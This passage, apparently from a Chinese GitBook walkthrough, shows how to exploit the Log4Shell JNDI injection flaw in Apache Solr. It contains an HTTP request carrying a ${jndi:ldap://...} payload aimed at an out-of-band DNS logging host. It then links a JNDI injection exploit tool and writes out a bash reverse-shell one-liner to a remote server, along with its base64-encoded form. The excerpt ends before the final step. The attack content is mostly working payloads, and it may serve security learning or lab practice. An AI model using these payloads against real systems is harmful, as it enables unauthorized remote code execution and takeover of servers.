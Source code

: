 ```
GET /solr/admin/cores?action=${jndi:ldap://3jnoo8is8nxggcwa8zpeaesxkoqfe62v.oastify.com} HTTP/1.1
Host: xx.xx.xx.xx:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

可以看到dnslog平台有了响应，说明存在log4j

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用：

在这之前需要下载一个漏洞利用工具

{% embed url="https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0" %}

这个需要用Java1.8版本运行，先生成一个反弹shell的payload

{% embed url="https://www.revshells.com/" %}

我这里接收反弹的地址是我云服务器的地址，生成好再对其进行base64编码

{% code lineNumbers="true" %}
```
bash -i >& /dev/tcp/xx.xx.xx.xx/9992 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC94eC54eC54eC54eC85OTkyIDA+JjE=
```
{% endcode %}
